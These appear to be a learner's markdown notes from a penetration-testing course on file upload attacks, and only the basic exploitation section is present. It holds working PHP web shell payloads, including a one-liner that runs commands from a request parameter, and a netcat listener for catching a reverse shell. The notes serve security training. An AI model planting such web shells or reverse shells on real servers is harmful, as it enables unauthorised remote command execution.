 # File Upload Attacks

1. [Basic Exploitation](#basic-exploitation)
1. [Bypassing Filters](#bypassing-filters)
1. [Other Upload Attacks](#other-upload-attacks)
1. [Skills Assessment](#skills-assessment)

## Basic Exploitation

* Absent validation:

  * no validation filters, so we can go for arbitrary file upload, like web shell or reverse shell

  * web shell has to be written in the same language as the web server; we can identify this using Wappalyzer or manually checking the source code if needed

  * once web framework is identified (for example - PHP), we can test by uploading arbitrary files; the result can be viewed (if file is uploaded successfully) at the location of file upload in browser:

    ```php
    <?php echo "Hello HTB";?> 
    // prints the message
    ```

    ```php
    <?php system("hostname");?>
    // executes the command 'hostname' on the backend
    ```
  
  * for PHP web shells, we can check [phpbash](https://github.com/Arrexel/phpbash) or the webshells provided in [SecLists](https://github.com/danielmiessler/SecLists/tree/master/Web-Shells)

  * we can also create a basic one-liner PHP webshell:

    ```php
    <?php system($_REQUEST['cmd']); ?>
    // we can use the cmd GET parameter to execute our commands
    ```
  
  * for reverse shells, we can use the [pentestmonkey PHP reverse shell](https://github.com/pentestmonkey/php-reverse-shell), or use [Seclists](https://github.com/danielmiessler/SecLists/tree/master/Web-Shells) like before, or use online tools such as [Revshell](https://www.revshells.com/):

    ```shell
    vim rev-shell.php
    # edit the IP and Port fields to our input machine's IP and Port

    nc -lvnp 4444
    # start netcat listener, assuming we have given 4444 as the listener port in the reverse shell
    # then we can upload the reverse shell and visit its link to trigger the script and get reverse connection
    ```
